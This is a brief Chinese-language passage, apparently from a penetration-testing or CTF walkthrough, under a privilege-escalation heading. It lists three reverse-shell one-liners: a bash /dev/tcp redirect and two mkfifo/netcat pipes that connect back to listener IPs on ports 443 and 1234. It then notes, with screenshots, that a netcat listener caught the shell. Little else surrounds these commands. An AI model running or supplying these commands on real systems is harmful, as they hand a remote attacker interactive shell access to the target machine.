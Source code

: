 # 三、权限提升

## 7.使用bash反弹shell

```plain
bash -c 'bash -i >%26 /dev/tcp/10.10.16.2/443 0>%261
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 443 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

[![](assets/1703640271-0ba1813596196be6eb03639f9ee2619d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155756-7b19fc20-a3c4-1.png)

nc进行监听

[![](assets/1703640271-039fdb69dc9a932b3364b7597e52d88c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155808-8230e794-a3c4-1.png)

成功反弹shell。
